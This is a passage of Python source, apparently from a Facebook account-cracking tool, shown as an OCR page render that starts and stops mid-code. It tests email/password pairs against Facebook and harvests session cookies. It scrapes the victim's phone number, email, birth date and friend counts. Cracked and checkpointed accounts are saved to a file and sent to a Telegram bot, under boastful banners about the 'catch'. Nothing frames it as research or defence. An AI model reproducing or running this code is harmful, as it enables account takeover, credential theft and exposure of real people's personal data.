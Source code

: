 Email = {idf}
Pasw = {pw}

<><><><><><><><><><<><><<<

Kilwa = @Lx0b2 ♕ @Pythonln	
					'''
					statuscp1 = nel(statuscp, style='yellow')
					cetak(nel(statuscp1, title=' نشالله يجيك صحيح '))
					open('CP/'+cpc,'a').write(statuscp)
					akun.append(idf+'|'+pw)
					cp+=1
					requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(statuscp))
				break
			elif "c_user" in ses.cookies.get_dict().keys():
				headapp={"user-agent":"NokiaX2-01/5.0 (08.35) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 (Linux; Android 9; SH-03J) AppleWebKit/937.36 (KHTML, like Gecko) Safari/420+"}
				if 'no' in taplikasi:
					ok+=1
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])

					print('\n')
					try:nomer = re.findall('\<a\ href\=\"tel\:\+.*?\">\<span\ dir\=\"ltr\">(.*?)<\/span><\/a>',str(response))[0]
					except:nomer = ""
					try:email = re.findall('\<a href\=\"https\:\/\/lm\.facebook\.com\/l\.php\?u\=mail.*?\" target\=\".*?\"\>(.*?)<\/a\>',str(response))[0].replace('&#064;','@')
					except:email=""
					try:ttl = re.findall('\<\/td\>\<td\ valign\=\"top\" class\=\".*?\"\>\<div\ class\=\".*?\"\>(\d+\s+\w+\s+\d+)<\/div\>\<\/td\>\<\/tr\>',str(response))[0]
					except:ttl=""
					try:teman = re.findall('\<h3\ class\=\".*?\"\>Teman\ \((.*?)\)<\/h3\>',str(response2))[0]
					except:teman = ""
					try:pengikut = re.findall('\<span\ class\=\".*?\"\>(.*?)\<\/span\>',str(response4))[1]
					except:pengikut = ""
					try:
						tahun = ""
						cek_thn = re.findall('\<div\ class\=\".*?\" id\=\"year_(.*?)\">',str(response3))
						for nenen in cek_thn:
							tahun += nenen+", "
					except:pass
					statusok = f'''
ɴᴇᴡ ғᴀᴄᴇʙᴏᴏᴋ ᴀᴄᴄ ʙʀᴏ ⚡❄ 
حـ༈ۖ҉ـسـ༈ۖ҉ـآب فـ༈ۖ҉ـيـ༈ۖ҉ـسـ༈ۖ҉ـبـ༈ۖ҉ـؤُك شغال ⚡❄
_____________________________
ᴇᴍᴀɪʟ - ايـ√ـمـيـل < {idf}

ᴘᴀѕѕ - بـاسـ🔒ـوࢪد < {pw}
_____________________________
*ᴅᴏɴᴛ ғᴏʀɢᴇᴛ ѕᴄʀᴇᴇɴѕ* 🖤🌞
*لاتنسى صور الصيد* ✨🔥
_____________________________
𝙱𝚈 - 𝙳𝙴𝚅 ℡ < @Lx0b2 >
𝙳𝙴𝚅 - 𝙲𝙷𝙽 < @Pythonln >
					'''
					statusokm = f'''
ɴᴇᴡ ғᴀᴄᴇʙᴏᴏᴋ ᴀᴄᴄ ʙʀᴏ ⚡❄ 
حـ༈ۖ҉ـسـ༈ۖ҉ـآب فـ༈ۖ҉ـيـ༈ۖ҉ـسـ༈ۖ҉ـبـ༈ۖ҉ـؤُك شغال ⚡❄
_____________________________
ᴇᴍᴀɪʟ - ايـ√ـمـيـل < {idf}
